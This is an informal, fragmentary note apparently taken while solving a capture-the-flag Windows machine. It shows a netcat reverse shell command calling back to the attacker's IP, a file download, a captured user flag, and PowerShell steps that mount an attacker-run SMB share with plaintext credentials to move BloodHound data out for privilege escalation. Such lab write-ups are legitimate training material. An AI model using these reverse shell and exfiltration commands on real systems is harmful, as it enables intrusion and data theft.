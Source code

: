because my shell is extremely slow let's try to download nc and get a reverse shell 
![[Pasted image 20211008180120.png]]
Invoke-WebRequest -Uri <source> -OutFile destination
.\nc.exe 10.10.17.185 2239 -e powershell
![[Pasted image 20211008180055.png]]



#userflag b99ecdeac5de8eeaa16735a0a79e18b2



now let's try to upload bloodhound to the server and get the info from hound to our linux and run it and see if there is a way to do privesc 

first let's setup a smb server  [[SMB]]


then 
we create a creds so we can connect to the smb sever on the windows machine 
$pass = convertto-securestring 'exde1234' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential ('super1', $pass)
![[Pasted image 20211008193127.png]]
New-PSDrive -Name super -PSProvider FileSystem -Credential $cred -Root \\10.10.17.185\super